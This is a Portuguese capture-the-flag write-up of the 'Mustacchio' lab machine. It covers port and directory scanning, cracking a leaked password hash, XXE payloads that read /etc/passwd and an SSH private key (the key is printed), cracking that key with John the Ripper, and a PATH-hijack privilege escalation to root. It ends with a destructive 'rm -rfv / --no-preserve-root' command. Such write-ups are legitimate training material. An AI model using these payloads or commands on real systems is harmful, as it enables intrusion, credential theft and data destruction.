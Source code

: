 MUSTACCHIO CTF

Ao inicar dei nmap 

    nmap -A -sV IP 

Encontrei 2 portas 22, 80

Assim partindo pra procura de diretorios usando o gobuster

    gobuster dir -u IP -w directory-list-2.3-small.txt -x php,html,txt

Encontrando o diretorio /custom que possuia dentro da pasta js tinha um arquivo de backup que ao baixa-lo

    wget IP/custom/users.bak

Ao ler o arquivo encontrava-se um username e uma senha 

    admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Assim 

    username: admin
    password: 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Tentando conectar no ssh com essas informacoes nao foi possivel, entao fui atras de outras formas, percebi que essa senha e uma chave encriptada entao fui a um site descriptar essa senha

    hashtoolkit

Ao colocar essa senha la ele me retornava a senha descriptada

    bulldog19

Ao tentar acessar de varias formas e sem sucesso percebi que algo estava errado, refiz os processos para ver o que deixei passar e quando refiz o nmap, percebi onde estava o erro, analisei novamente de uma forma mais agressiva 

    nmap -p- -sV IP

Assim mostrando mais 1 porta que nao tinha acesso antes.. a porta "8765"
Agora acessando essa porta IP:8765 tinha uma pagina admin... agora era so logar com os dados que ja tinhamos

    username admin
    pass bulldog19

Ao acessar esse painel admin tinha uma caixar para inserir comentarios, ao olhar o codigo fonte tinha 2 comentarios interessantes 

    //document.cookie = "Example=/auth/dontforget.bak";
    function cheacktarea() {
    let tbox = document.getElementById("box").value;
    if (tbox == null || tbox.lenght == 0 ) {
    alert("Insert XML Code!")
        }
    }

    <!-- Barry, you can now SSH in using your key! -->

Assim tendo acesso a mais um arquivo de backup e um username 

    wget IP:8765/auth/dontforget.bak

    <?xml version="1.0" encoding="UTF-8"?>
    <comment>
    <name>Joe Hamd</name>
    <author>Barry Clad</author>
    <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
    </comment>

Para explorar essa falha XXE executando o payload XML para ver se era possivel ler as pastas tambem 

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE updateProfile [
    <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
    <comment>
    <name>Joe</name>
    <author>dannydev19</author>
    <com>&file;</com>
    </comment> 

Tendo acesso a essa pasta vi que era possivel ler qualquer arquivo entao, fui atras da chave RSA do Barry 

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE updateProfile [
    <!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
    <comment>
    <name>Barry</name>
    <author>dannydev19</author>
    <com>&file;</com>
    </comment>

Assim conseguindo ter acesso a chave RSA 

    -----BEGIN RSA PRIVATE KEY----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

    jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
    bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
    MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
    l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
    Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
    NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
    ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
    TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
    rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
    bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
    4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
    7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
    T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
    ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
    LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
    pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
    laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
    vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
    DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
    6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
    ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
    7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
    1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
    +Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
    7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
    -----END RSA PRIVATE KEY----

Criando o arquivo RSA

    nano barryrsa
    Introduzindo essa chave nesse arquivo

Ao tentar connectar no ssh com essa chave direto percebemos que deu outro erro , essa chave estava encriptada e precisamos da senha dela, agora para isso e preciso usar o programa john the ripper, para usar esse programa, primeiramente vemos se ele esta no nosso sistema 

    locate ssh2john.py

Assim e so executar esse arquivos passando os parametros

    python /usr/share/john/ssh2john.py barryrsa > johncracked.hash
    john --wordlist=/usr/share/wordlists/rockyou.txt johncracked.hash

Assim conseguindo a senha do barry

    username: Barry
    password: urieljames

Assim e so conectar no ssh... Finalmente!!

    ssh -i barryrsa barry@IP

Assim conseguindo acesso a maquina

    cat user.txt
    62d77a4d5f97d47c5aa38b3b2651b831

Agora precisamos escalar nossos privilegios e se tornar o root..
Dentro do perfil do Joe tinha um arquivo chamado "live_log"

    strings live_log
    tail -f /var/log/nginx/access.log

Vendo esse arquivo tinhamos que ir ate o /tmp e criar um arquivo chamado "tail"

    nano tail
    
    "/bin/bash"
    
Adicionando perms..

    chmod 777 tail

Agora dentro do user joe executamos o arquivo "live_long" para conseguir acesso ao root
    
    ./live_log

Assim tendo acesso ao root...

    cat root.txt
    3223581420d906c4dd1a5f9b530393a5

Finalizando...

    touch dannydev19.txt
    rm -rfv / --no-preserve-root 

FLAGS

    FLAG 1: 62d77a4d5f97d47c5aa38b3b2651b831
    FLAG 2: 3223581420d906c4dd1a5f9b530393a5

![image](https://user-images.githubusercontent.com/86691253/185536036-b6574f36-e526-4761-90bd-eac215efb7e9.png)
